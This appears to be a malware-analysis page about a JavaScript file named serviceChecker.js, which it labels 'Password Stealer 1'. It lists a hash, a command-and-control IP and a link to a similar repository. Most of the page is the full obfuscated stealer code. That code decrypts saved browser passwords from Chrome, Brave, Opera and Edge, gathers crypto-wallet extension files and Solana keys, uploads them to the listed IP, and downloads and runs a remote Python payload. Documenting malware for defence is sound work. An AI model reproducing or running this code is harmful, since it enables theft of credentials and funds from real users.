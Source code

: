 <h1>Info for Password Stealer 1</h1>

<h3>Original filename:</h3> serviceChecker.js
<h3>SHA-256:</h3> 7f8bb754f84a06b3e3617dd1138f07a918d11717cc63acaef8eb5c6d10101377

<br/>

<b>Malicious code:</b>
<pre>
Object.prototype.hasOwnProperty,Object.prototype.toString,Object.defineProperty,Object.getOwnPropertyDescriptor;!function t(c,r){if(c===r)return!0;if(c&&r&&"object"==typeof c&&"object"==typeof r){if(c.constructor!==r.constructor)return!1;var e,a,n;if(Array.isArray(c)){if((e=c.length)!=r.length)return!1;for(a=e;0!=a--;)if(!t(c[a],r[a]))return!1;return!0}if(c.constructor===RegExp)return c.source===r.source&&c.flags===r.flags;if(c.valueOf!==Object.prototype.valueOf)return c.valueOf()===r.valueOf();if(c.toString!==Object.prototype.toString)return c.toString()===r.toString();if((e=(n=Object.keys(c)).length)!==Object.keys(r).length)return!1;for(a=e;0!=a--;)if(!Object.prototype.hasOwnProperty.call(r,n[a]))return!1;for(a=e;0!=a--;){var l=n[a];if(!t(c[l],r[l]))return!1}return!0}return c!=c&&r!=r}(0,0);const t="base64",c="utf8",r=r=>(s1=r.slice(1),Buffer.from(s1,t).toString(c)),e=r("dc3FsaXRlMw"),a=r("aY2hpbGRfcHJvY2Vzcw"),n=r("aY3J5cHRv"),l=r("cZXhlYw"),o=r("YcmVxdWVzdA"),i=r("zcGF0aA"),s=r("YcGxhdGZvcm0"),m=r("cdG1wZGly"),b=r("ZaG9tZWRpcg"),u=r("caG9zdG5hbWU"),Z=r("AdHlwZQ"),$=require("fs"),h=require("os"),y=require(e),G=require(i),Y=require(o),d=require(n),f=require(a)[l],W=h[u](),v=h[s](),p=h[b](),V=h[m](),w=h[Z]();let j;const R=r=>Buffer.from(r,t).toString(c),g=(()=>{let t="NDUuNjEuMTaHR0cDovLwYwLjE0OjEyMjQ=      ";for(var c="",r="",e="",a="",n=0;n<10;n++)c+=t[n],r+=t[10+n],e+=t[20+n],a+=t[30+n];return c=c+e+a,R(r)+R(c)})(),X=R("ZGlybmFtZQ"),L=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?p:`${G[X](p)}/${c}`)),U="dGVhbTE1",F="Z2V0",J="d3JpdGVGaWxlU3luYw",E="L2NsaWVudA",N=R("Ly5ucGw"),B=R(E),S=R(J),k=R(F),z=R("ZXhpc3RzU3luYw"),Q="L3N0b3JlLm5vZGU",x=R("YWNjZXNzU3luYw");function O(t){try{return $[x](t),!0}catch(t){return!1}}const T=R("RGVmYXVsdA"),q=R("UHJvZmlsZQ"),A=R("L0FwcERhdGEvTG9jYWwvTWljcm9zb2Z0L0VkZ2UvVXNlciBEYXRh"),C=(t,c)=>{result="";try{const r=`${t}`,e=require(`${p}${R(Q)}`);if(w!=R("V2luZG93c19OVA"))return;const a=R("U0VMRUNUICogRlJPTSBsb2dpbnM"),n=`${L("~/")}${c}`;let l=G.join(n,R("TG9jYWwgU3RhdGU"));const o=R("YWVzLTI1Ni1nY20"),i=R("b3JpZ2luX3VybA"),s=R("dXNlcm5hbWVfdmFsdWU"),m=R("cGFzc3dvcmRfdmFsdWU"),b=R("Q3J5cHRVbnByb3RlY3REYXRh"),u=R("Y3JlYXRlRGVjaXBoZXJpdg"),Z=R("cmVhZEZpbGU"),h=R("Y29weUZpbGU"),Y=R("TG9naW4gRGF0YQ"),f=R("b3NfY3J5cHQ"),W=R("ZW5jcnlwdGVkX2tleQ"),v=R("RGF0YWJhc2U"),V=R("bGF0aW4x"),j=R("VTog"),g=R("Vzog"),X=R("UDog"),U=R("dW5saW5r");$[Z](l,R("dXRmLTg"),((t,c)=>{if(!t){mkey=JSON.parse(c),mkey=mkey[f][W],mkey=(t=>{var c=atob(t),r=new Uint8Array(c.length);for(let t=0;t<c.length;t++)r[t]=c.charCodeAt(t);return r})(mkey);try{const t=e[b](mkey.slice(5));for(ii=0;ii<=200;ii++){const c=0===ii?T:`${q} ${ii}`,e=`${n}/${c}/${Y}`,l=`${n}/t${c}`;if(!O(e))continue;const b=`${r}_${ii}_${q}`;$[h](e,l,(c=>{try{const c=new y[v](l);c.all(a,((r,e)=>{var a="";r||e.forEach((c=>{var r=c[i],e=c[s],n=c[m];try{"v"===n.subarray(0,1).toString()&&(iv=n.subarray(3,15),cip=n.subarray(15,n.length-16),cip.length&&(mmm=d[u](o,t,iv).update(cip),a=`${a}${g}${r} ${j} ${e} ${X}${mmm.toString(V)}\n\n`))}catch(t){}})),c.close(),$[U](l,(t=>{})),ht(b,a)}))}catch(t){}}))}}catch(t){}}}))}catch(t){}},H=r("aZmlsZW5hbWU"),M=r("YbXVsdGlfZmlsZQ"),I=r("cZm9ybURhdGE"),P=r("adXJs"),D=r("Zb3B0aW9ucw"),_=r("YdmFsdWU"),K=R("cmVhZGRpclN5bmM"),tt=R("c3RhdFN5bmM"),ct=(R("aXNEaXJlY3Rvcnk"),R("cG9zdA")),rt=[[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9Hb29nbGUvQ2hyb21l"),R("Ly5jb25maWcvZ29vZ2xlLWNocm9tZQ"),R("L0FwcERhdGEvTG9jYWwvR29vZ2xlL0Nocm9tZS9Vc2VyIERhdGE")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9CcmF2ZVNvZnR3YXJlL0JyYXZlLUJyb3dzZXI"),R("Ly5jb25maWcvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy"),R("L0FwcERhdGEvTG9jYWwvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2VyL1VzZXIgRGF0YQ")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9jb20ub3BlcmFzb2Z0d2FyZS5PcGVyYQ"),R("Ly5jb25maWcvb3BlcmE"),R("L0FwcERhdGEvUm9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGUvVXNlciBEYXRh")]],et=R("TG9jYWwgRXh0ZW5zaW9uIFNldHRpbmdz"),at=R("LmxkYg"),nt=R("LmxvZw"),lt=R("c29sYW5hX2lkLnR4dA");let ot="comp";const it=["bmtiaWhmYmVvZ2FlYW9laGxlZm5rb2RiZWZncGdrbm4","aWJuZWpkZmptbWtwY25scGVia2xtbmtvZW9paG9mZWM","ZWpiYWxiYWtvcGxjaGxnaGVjZGFsbWVlZWFqbmltaG0","Zmhib2hpbWFlbGJvaHBqYmJsZGNuZ2NuYXBuZG9kanA","YmZuYWVsbW9tZWltaGxwbWdqbmpvcGhocGtrb2xqcGE","aG5mYW5rbm9jZmVvZmJkZGdjaWpubWhuZm5rZG5hYWQ","Zm5qaG1raGhta2Jqa2thYm5kY25ub2dhZ29nYm5lZWM","YWVhY2hrbm1lZnBoZXBjY2lvbmJvb2hja29ub2VlbWc","aGlmYWZnbWNjZHBla3Bsb21qamtjZmdvZG5oY2VsbGo"],st=R("Y3JlYXRlUmVhZFN0cmVhbQ"),mt=R("L3VwbG9hZHM"),bt=async(t,c,r)=>{let e=t;if(!e||""===e)return[];try{if(!O(e))return[]}catch(t){return[]}c||(c="");let a=[];for(let r=0;r<200;r++){const n=`${t}/${0===r?T:`${q} ${r}`}/${et}`;for(let t=0;t<it.length;t++){const l=R(it[t]);let o=`${n}/${l}`;if(O(o)){try{far=$[K](o)}catch(t){far=[]}far.forEach((async t=>{e=G.join(o,t);try{(e.includes(at)||e.includes(nt))&&a.push({[_]:$[st](e),[D]:{[H]:`${c}${r}_${l}_${t}`}})}catch(t){}}))}}}if(r&&(e=`${p}${R("Ly5jb25maWcvc29sYW5hL2lkLmpzb24")}`,$[z](e)))try{a.push({[_]:$[st](e),[D]:{[H]:lt}})}catch(t){}const n={timestamp:j.toString(),type:U,hid:ot,[M]:a};try{const t={[P]:`${g}${mt}`,[I]:n};Y[ct](t,((t,c,r)=>{}))}catch(t){}return a},ut=()=>{try{rt.forEach(((t,c)=>{C(c,t[2])})),C(3,A)}catch(t){}},Zt=R("L2tleXM"),$t=R("cHl0aG9u"),ht=async(t,c)=>{const r={ts:j.toString(),type:U,hid:ot,ss:t,cc:c.toString()},e={[P]:`${g}${Zt}`,[I]:r};try{Y[ct](e,((t,c,r)=>{}))}catch(t){}},yt=R("cC56aQ"),Gt=R("L3Bkb3du"),Yt=R("cmVuYW1lU3luYw"),dt=R("cmVuYW1l"),ft=R("cm1TeW5j"),Wt=R("dGFyIC14Zg"),vt=R("Y3VybCAtTG8"),pt=R("XC5weXBccHl0aG9uLmV4ZQ"),Vt=51476596;let wt=0;const jt=async t=>{f(`${Wt} ${t} -C ${p}`,((c,r,e)=>{if(c)return $[ft](t),void(wt=0);$[ft](t),Lt()}))},Rt=()=>{const t=R("cDIuemlw"),c=`${g}${Gt}`,r=`${V}\\${yt}`,e=`${V}\\${t}`;if(!(wt>=Vt))if($[z](r))try{var a=$[tt](r);a.size>=Vt?(wt=a.size,$[dt](r,e,(t=>{if(t)throw t;jt(e)}))):(wt<a.size?wt=a.size:($[ft](r),wt=0),gt())}catch(t){}else{f(`${vt} "${r}" "${c}"`,((t,c,a)=>{if(t)return wt=0,void gt();try{wt=Vt,$[Yt](r,e),jt(e)}catch(t){}}))}};function gt(){setTimeout((()=>{Rt()}),2e4)}const Xt=async()=>{var t=process.version.match(/^v(\d+\.\d+)/)[1];const c=`${g}${R("L25vZGUv")}${t}`,r=`${p}${R(Q)}`;if($[z](r))ut();else{f(`${vt} "${r}" "${c}"`,((t,c,r)=>{ut()}))}},Lt=async()=>await new Promise(((t,c)=>{if("w"==v[0]){const t=`${p}${pt}`;$[z](`${t}`)?(()=>{const t=`${g}${B}/${U}`,c=`${p}${N}`,r=`"${p}${pt}" "${c}"`;try{$[ft](c)}catch(t){}Y[k](t,((t,e,a)=>{try{$[S](c,a),f(r,((t,c,r)=>{t&&Xt()}))}catch(t){Xt()}}))})():(Xt(),Rt())}else(()=>{const t=R(E),c=R(J),r=R(F),e=`${g}${t}/${U}`,a=`${p}${N}`;let n=`${$t}3 "${a}"`;Y[r](e,((t,r,e)=>{$[c](a,e),f(n,((t,c,r)=>{}))}))})()}));var Ut=0;const Ft=async()=>{try{j=Date.now(),await(async()=>{ot=W;try{const t=L("~/");rt.forEach((async(c,r)=>{let e="";e="d"==v[0]?`${t}${c[0]}`:"l"==v[0]?`${t}${c[1]}`:`${t}${c[2]}`,await bt(e,`${r}_`,0==r)})),"w"==v[0]&&(pa=`${t}${A}`,await bt(pa,"3_",!1))}catch(t){}})(),Lt()}catch(t){}};Ft();let Jt=setInterval((()=>{(Ut+=1)<5?Ft():clearInterval(Jt)}),6e5);module.exports=Ft; 

</pre>


IP:
45.61.160.14

Similar malware repo: https://github.com/henry-richard7/Browser-password-stealer

Full REPO (WARNING - do not run)
